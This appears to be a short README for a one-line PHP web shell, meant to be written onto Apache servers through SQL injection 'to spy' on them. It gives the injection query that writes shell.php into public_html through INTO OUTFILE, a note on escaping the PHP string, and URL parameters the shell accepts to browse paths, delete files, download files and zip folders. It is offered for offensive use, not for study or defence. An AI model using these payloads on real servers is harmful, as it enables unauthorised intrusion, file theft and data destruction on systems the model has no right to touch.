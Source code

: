 # SHEL | one line | single File
SHELL compatible with injection SQL using PHP to spy apache servers

LIKE : `SELECT "'.$phpString.'" INTO OUTFILE "public_html/shell.php"`

# USING

to read path   `?path=c://`

to delete file `?unlink=public_html/shell.php`

to read file   `?download=public_html/shell.php`

to zip folder `?path=public_html/&destination=name_zip_file`

# SQL injection

$phpString = ' replace all char ' with \\' ';
